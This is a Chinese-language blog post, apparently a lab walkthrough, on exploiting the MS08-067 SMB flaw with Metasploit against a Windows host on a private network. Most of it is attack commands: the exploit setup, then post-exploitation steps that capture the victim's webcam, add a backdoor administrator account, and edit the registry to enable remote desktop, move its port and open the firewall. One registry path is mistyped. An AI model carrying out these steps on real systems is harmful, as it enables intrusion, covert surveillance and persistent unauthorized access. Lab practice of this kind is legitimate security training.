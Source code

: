 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 确定攻击者IP和受害者IP](#0x0-确定攻击者ip和受害者ip)
    - [攻击机](#攻击机)
    - [受害机](#受害机)
- [0x1 启动MSF](#0x1-启动msf)
- [0x2 启动摄像头](#0x2-启动摄像头)
- [0x3 创建用户](#0x3-创建用户)
- [0x4 开启远程桌面端口以及远程连接](#0x4-开启远程桌面端口以及远程连接)

<!-- /TOC -->
## 0x0 确定攻击者IP和受害者IP

### 攻击机
![](https://lcy2218.github.io/images/20210326-1.png)
### 受害机
![](https://lcy2218.github.io/images/20210326-2.png)

## 0x1 启动MSF
```c
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set lhost 192.168.88.130
    set rhost 192.168.88.139
```
![](https://lcy2218.github.io/images/20210326-3.png)

```c
    run
```

![](https://lcy2218.github.io/images/20210326-4.png)

```c
    ipconfig
```

![](https://lcy2218.github.io/images/20210326-5.png)

## 0x2 启动摄像头

```c
    webcam_list
    webcam_snap
```

![](https://lcy2218.github.io/images/20210326-6.png)

## 0x3 创建用户

```c
    net user lcy 2218 /add
    net localgroup administrators lcy /add  //把lcy加入管理员用户
```

![](https://lcy2218.github.io/images/20210326-7.png)

## 0x4 开启远程桌面端口以及远程连接

```c
    REG query HKLM\SYSTEM\CurrentControlSet\Controly\Terminal" "Server\WinStations\RDP-Tcp 
    /v PortNumber //查询终端端口
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections 
    /t REG_DWORD /d 00000000 /f //开启XP&2003终端服务
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp 
    /v PortNumber /t REG_DWORD /d 0x7d8 /f   //更改终端端口为2008(0x7d8)默认为3389（0xD3D）
    REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\

    Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 
    3389:TCP:*:Enabled:@xpsp2res.dll,-22009 /f
    //取消xp&2003系统防火墙对终端服务的限制及IP连接的限制

    rdesktop -f -a 16 192.168.88.139:3389
    //在另一个终端开启远程桌面
```

![](https://lcy2218.github.io/images/20210326-8.png)
![](https://lcy2218.github.io/images/20210326-9.png)